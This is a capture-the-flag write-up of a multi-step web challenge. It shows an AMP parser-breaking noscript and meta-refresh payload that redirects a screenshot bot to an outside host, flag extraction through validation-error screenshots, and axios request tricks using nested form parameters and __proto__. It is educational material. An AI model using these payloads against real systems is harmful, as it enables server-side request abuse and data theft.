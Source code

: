 The amount of vulnerabilities and tricks stacked into this one challenge is crazy.

First, we have to look at how to get unintended behavior out of the DOM. The official writeup used the <amp-ad> element which did not require an additional source and could access an external site using the data-pubnetwork-lib property. The writeup by wbowling used a different and much cooler exploit in which they were able to break the AMP parser. It was essentially adding `<noscript><!-- </noscript>  <meta http-equiv="refresh" content="0;url=http://aw.rs:12344"> --></noscript>`. During the CTF, I noticed that the parser was failing test cases where elements were inserted inside of each other and closed. Also, HTML comments and noscript tags can have weird behavior so I definitely should've tried this out myself. 

Now with the very powerful primitive that the screenshot bot will visit our site there are still many steps to go. One interesting idea was how to exfiltrate the data from the database. The official writeup, and what I implemented, abused the fact that the validate route would report invalid AMP code so we could fit the flag in some part of invalid AMP and it would display it in a screenshot. This is perfect because it helps bypass SOP (we get to see what the browser sees). This was done by making a document with id `a` that started a script tag and a document with id `z` that ended the script tag. Then by inserting a meta tag, the error will show up clearly when requesting all documents from the collection. 

Another interseting thing was how to send objects in POST request parameters. I noted this in a comment but it is interesting that to pass a nested object you just need to nest the properties in brackets, ex. `input[headers][Content-Type]`. This combined with the fact that axios will take in an object and not just a URL was another trick in this challenge.

Finally, the last trick is to get the response to be text. There are 2 approaches and I used the method from the original writeup. The official writeup's method is to set `transformResponse` to null. However, in a POST request with form data, we cannot actually send a null, it would be "null". I'm not 100% sure why this works but setting the prototype on the object works to set the property to null, ex. `createInput('input[transformResponse][__proto__]', '')`. My best guess is that axios may be interpreting parameters weirdly in the source code. I didn't have time to actually look for the reasoning yet. The other approach from wbowling's solution is add `爀` to the response and set the `responseEncoding` to `ascii` the json parsing fails and it returns text. This makes some sense as to why it would work as the parser doesn't recognize that character so it would default to text.

All of these vulnerabilities combine to an extremely difficult challenge and although I had some idea of what to do if I could get the bot to visit my site, I wasn't able to pass the first step during the actual ctf.
